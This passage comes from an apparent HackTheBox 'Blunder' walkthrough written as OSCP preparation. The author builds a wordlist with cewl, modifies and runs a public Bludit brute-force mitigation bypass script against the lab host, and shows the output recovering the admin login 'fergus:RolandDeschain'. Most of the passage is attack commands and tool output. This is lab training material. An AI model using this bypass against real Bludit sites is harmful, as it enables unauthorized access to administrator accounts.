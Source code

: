 I got an error, this is probably caused by the rockyou wordlist. So I generate my own using cewl:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ cewl http://blunder.htb > wordlist.txt
```

The only username I tried was fergus. Now, I run the script again:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ ./bludit-auth-bypass.py -l http://blunder.htb/admin -u users.txt -p wordlist.txt                                   
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX 
      
[┤] Brute Force: Testing -> fergus:CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[▄] Brute Force: Testing -> fergus:the
```

But it did not found any password, so I use another tool which may be able to use the rockyou list:

[Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass//)

I edit it a bit:

```bash
host = 'http://blunder.htb'
login_url = host + '/admin/'
username = ''
wordlist = []

with open(sys.argv[1]) as file:
        for password in file.read().splitlines():
                wordlist.append(password.replace('\n',''))
```

Now, execute it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/blunder]
└─$ python3 brute-bludit.py ./wordlist.txt
[*] Trying: the
[*] Trying: and
[*] Trying: for
[*] Trying: Load
---snip---
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

I tried to login, and it worked:
